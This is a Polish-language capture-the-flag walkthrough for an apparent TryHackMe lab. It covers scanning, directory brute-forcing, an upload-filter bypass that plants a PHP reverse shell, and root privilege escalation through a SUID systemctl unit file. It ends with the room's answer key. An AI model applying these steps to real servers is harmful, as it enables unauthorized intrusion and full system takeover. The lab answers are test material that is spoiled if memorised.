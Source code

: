 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz profil pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).


3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -sC -sV -T4 -A <Adress Ip> -oA nmap.nmap ```

4. Z skanowania da się wydedykować, że na porcie "3333" działa Server Apache. Wpisujemy więc w naszą przeglądarke
AdressIp:3333 i patrzymy co na niej widnieje.

5. Teraz z racji, że szukanie ręcznie ścieżek na stronie może być bardzo monotonne i nie efektywne użyjemy dirb,
dirbuster, wfuzz, gobuster. W zależności w czym wam wygodniej. Ja użyje gobuster'a:

``` $ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt ```

6. Po chwili znajdziemy ściekę "/internal", więc sprawdzamy co tam jest. ( Ip:3333/internal ). Widzimy, że na stronie
możemy wysyłać pliki do serwera. Pierwsze co sprawdzamy to jakie pliki można dzięki temu wysłać, w większości 
przypadków można ominąć sprawdzenie.

7. Z racji że jestem na systemie "Kali" to użyje PHP shell. Skopiuj reverse-shell do katalogu roboczego:

``` $ cp /usr/share/webshells/php/php-reverse-shell.php . ```

8. Musimy teraz zedytować plik na nasz adress Ip i Port. Adress Ip to adress który po wpisaniu "ifconfig" widnieje
obok "tun0" ( Twoje ip w VPN ). Port ustawmy na "hakerski" 4444. ($ip, $port). I zapiszmy plik.
( Ja użyłem edytora "nano", ale można użyć takiego, w którym jest Ci wygodniej np. "vi" )

9. Żeby przechwycić reverse-shella przydałoby się nasłuchiwać port który ustawiliśmy. Użyjemy w tym celu "NetCat":

``` $ nc -nlvp 4444 ```(<--port)

10. Możesz zrobić kopie tego pliku na różne ścieżki ".html" ".php" ".php1" ".php2" ".php5" ".phtml". Ja sprawdzałem
próbując wgrać pliki ręcznie, ale ty w tym celu możesz użyć np. "BurpSuite".

11. Po sprawdzeniu na serwer udało sie wysłać plik z rozszerzeniem ".phtml". Więc sprawdzamy gdzie plik się wgrał w 
tym celu do ścieżki dodajemy "/uploads" i widzimy nasz plik reverse.

12. Klikamy w plik na serwerze ( W przeglądarce ) przez co się uruchamia i w terminalu gdzie uruchomiliśmy netcata
widzimy połączenie i możemy zacząć wydawać polecenia.

13. Wpisując np. "id" "whoami" widzimy nasze uprawnienia.

14. W tym momencie musimy zobaczyć do czego mamy uprawnienia wchodząc np. do home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. Wyświtliła nam się pierwsza "flaga" dla user'a.

16. Teraz szukamy plików binarnych SUID. SUID to w skrócie uprawnienia danego użytkowanika do danych plików:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. Widzimy teraz pare plików z ustawioną flagą SUID.

18. Teraz musimy zrobić atak o nazwie "Privilege Escalation" do podniesienia naszych uprawnień systemowych. Scanując
flagę SUID znaleźliśmy plik o nazwie "systemctl".

Systemctl to plik binarny, który kontroluje interfejsy użytkowników i est odpowiedzialny np. za uruchamiane usługi
podczas rozruchu. Domyślnie systemctl przeszuka pliki w "/etc/system/systemd" w celu poszukiwania i obsłużenia
jednostek.

19. Na tej maszynie nie możemy tworzyć nowych plików w ścieżkach należących do root'a, ale możemy zmienić zmienne 
środowiskowe w już instniejącym, więc możemy zrobić PrivEsc.

20. Pierwsze co robimy to tworzymy zmienną środowiskową:

```$ priv=$(mktemp).service```

Teraz musimy stworzyć plik jednostkowy i przypisać go do zmiennej środowiskowej:

```$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```


( Nie bój użyć się entera dopóki nie skończy się ' <-- to możemy dalej wpisywać w nowej linijce. )

21. To co przed chwilą zrobiliśmy to prostu utworzenie usługi, która wykona "Basha", a następnie odczyta falge z 
katalogu głównego root'a i zapisze ją w fladze / pliku w katalogu "/opt"

22. Teraz musimy odpalić plik jednostkowy za pomocą "systemctl":

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Teraz możemy zobaczyć plik flag w katalogu "/opt":

```$ cat flag```

24. To tyle przed chwilą wykonaliśmy komendę dla użytkownika root.


// Uzupełnienie rubryk 

Zadanie.2

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Zadanie 3.

1) /internal/

Zadanie 4.

1) .php

2) .phtml

3) bill

4) Twoja flaga dla użytkownika (user-www..)

Zadanie 5.

1) /bin/systemctl

2) Twoja flaga dla administratora (root)
